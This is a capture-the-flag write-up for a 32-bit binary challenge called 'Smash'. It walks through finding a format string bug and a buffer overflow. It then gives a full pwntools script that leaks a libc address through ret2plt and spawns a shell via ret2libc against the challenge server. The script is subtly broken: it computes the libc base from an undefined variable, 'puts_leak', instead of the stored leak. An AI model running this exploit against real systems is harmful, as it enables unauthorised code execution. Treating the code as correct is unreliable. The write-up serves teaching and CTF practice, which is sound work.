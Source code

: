 # Smash
Smash was a very cool challenge where you were given the `libc` version used by the binary. You had to bypass ASLR and then execute a ret2libc attack.

## Analysis
As per usual, run a quick `checksec`:

![checksec](images/checksec-smash.png)

Luckily for us, PIE is disabled and there is no canary. That makes our job much easier.<br>

Let's run it and see what happens.

![test](images/smash-test.png)

Hmm, our input is printed back to us again. Is there another format string bug?

![format string](images/smash-fs.png)

Indeed there is! Is a BoF possible this time?

![buffer overflow](images/smash-bof.png)

Awesome.<br>

There's nothing particularly interesting in the decompilation - `main` takes input and calls `say_hello`, which prints back to you.

![rabin2](images/smash-rabin2.png)

No interesting strings either. As we are given the `libc`, everything points to a good old ret2libc attack.

## Exploitation
As we only had one input, the logical approach would be to use a ret2plt to leak the address of puts in `libc` from the [global offset table](https://github.com/ir0nstone/pwn-notes/blob/master/concepts/plt_and_got.md) and call main again to let us have another input.

```python
from pwn import *

elf = context.binary = ELF('./hello')

# Adapt for remote
if args.REMOTE:
    libc = ELF('./libc-remote.so')
    p = remote('chall.csivit.com', 30046)
else:
    libc = elf.libc
    p = elf.process()


# ret2plt
p.clean(1)

payload = flat(
    b'A' * 136,
    elf.plt['puts'],
    elf.symbols['main'],        # 32-bit - return address comes directly after the function call
    elf.got['puts']             # Parameter comes after the return address
)

p.sendline(payload)

p.recvline()                    # This is the 'Hello, <>!' string - we don't need this

puts_libc = u32(p.recv(4))      # The puts call. We only need the first 4 bytes (the GOT entry of puts)
log.success(f'Puts@LIBC: {hex(puts_libc)}')

libc.address = puts_leak - libc.symbols['puts']
log.success(f'Libc base: {hex(libc.address)}')

p.clean(1)

# Final ret2libc
payload = flat(
    b'A' * 136,
    libc.symbols['system'],
    libc.symbols['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)
p.interactive()
```
